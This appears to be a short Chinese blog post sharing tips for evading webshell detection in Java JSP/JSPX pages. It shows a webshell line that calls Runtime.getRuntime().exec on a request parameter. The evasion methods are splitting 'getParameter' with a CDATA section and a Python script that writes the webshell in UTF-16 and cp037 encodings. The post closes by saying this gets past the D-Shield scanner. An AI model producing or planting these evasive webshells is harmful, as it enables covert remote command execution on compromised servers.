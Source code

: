本人对java研究的不是非常深入，因此主要分享的还是平时收集的几个小tips，如果有没看过的师傅现在看到了也是极好的，java
unicode绕过就不再多言。  

  

####  **0、小小Tips**

jsp的后缀可以兼容为jspx的代码，也兼容jspx的所有特性，如CDATA特性。  
jspx的后缀不兼容为jsp的代码，jspx只能用jspx的格式。

  

####  **1、jspx CDATA特性**

在XML元素里，<和&是非法的，遇到<解析器会把该字符解释为新元素的开始，遇到&解析器会把该字符解释为字符实体化编码的开始。

  

但是我们有时候有需要在jspx里添加js代码用到大量的<和&字符，因此可以将脚本代码定义为CDATA。

  

CDATA部分内容会被解析器忽略，此时ameter依旧会与getPar拼接成为getParameter。

  *   * 

    
    
    格式：<![CDATA[xxxxxxxxxxxxxxxxxxx]]>例如：String cmd = request.getPar<![CDATA[ameter]]>("shell");

  

####  **2、实体化编码**

  *   *   * 

    
    
     if (cmd !=null){        Process child = Runtime.getRuntime().exec(cmd);        InputStream in = child.getInputStream();

  

####  **3、利用java支持其他编码格式来进行绕过**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     #python2charset = "utf-8"data = '''<%Runtime.getRuntime().exec(request.getParameter("i"));%>'''.format(charset=charset)  
    f16be = open('utf-16be.jsp','wb')f16be.write('<%@ page contentType="charset=utf-16be" %>')f16be.write(data.encode('utf-16be'))  
      
    f16le = open('utf-16le.jsp','wb')f16le.write('<jsp:directive.page contentType="charset=utf-16le"/>')f16le.write(data.encode('utf-16le'))  
    fcp037 = open('cp037.jsp','wb')fcp037.write(data.encode('cp037'))fcp037.write('<%@ page contentType="charset=cp037"/>')

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212808.png)

  

可以看到对于D盾的免杀效果还是非常好的。

![]()
